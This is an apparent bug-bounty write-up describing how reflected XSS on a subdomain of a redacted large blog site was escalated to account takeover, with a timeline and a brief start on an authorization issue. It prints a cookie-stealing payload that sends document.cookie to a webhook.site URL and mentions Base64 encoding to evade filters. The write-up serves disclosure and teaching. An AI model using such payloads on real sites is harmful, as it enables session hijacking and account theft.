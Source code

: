 **Submitted:** April 25, 2021  
**Triaged:** April 27,2021**Fixed:** April 27,2021

**Timeline of Account Takeover**

**Submitted**: April 29, 2021  
**Triaged** : April 30, 2021 at 3:32 PM  
**Fixed**: April 30, 2021 at 3:49 PM

---

## How I Discovered Account Takeover (ATO) via Cross-Site Scripting (XSS)

While hunting for a program with millions of users — specifically a large blog website, which I’ll refer to as redacted.com — I began by enumerating its subdomains. One subdomain I found was **jp.redacted.com**.

Next, I utilized ==Param Spider== to gather all possible parameters. The command I used was:


```bash
param spider -d jp.redacted.com -s  (to list in the terminal all possible parameters0
```

This command listed all possible parameters in the terminal. Among them, I discovered a parameter called **s=**, which allowed me to execute reflected XSS (RXSS) with a simple payload:

<script>alert(1)</script>

![](https://miro.medium.com/v2/resize:fit:700/1*RoZet6wDPJj_WVBnv9x3iQ.png)

										RXSS


Once I got I tried to escalate it to the ATO using a simple payload

```
<img src="x" onerror=document.location=%27https://webhook.site/790fbd5e-8cc4-441e-9a81-6ac18f40cb5f?c=%27+document.cookie;">
```


However, this approach did not work, and I tried numerous payloads without success. After some experimentation,~={red} I decided to encode my payloads in Base64…=~

![](https://miro.medium.com/v2/resize:fit:700/1*Y2y1BGAfk8SIIUha_AuRMQ.png)

							ATO Via RXSS

I reported the ATO vulnerability via RXSS to the team, but unfortunately, I have not received a response in the last five months.


---

### 2. Authorization Issue

**Concept:** Poor authorization checks allow attackers to hijack accounts during email change requests.
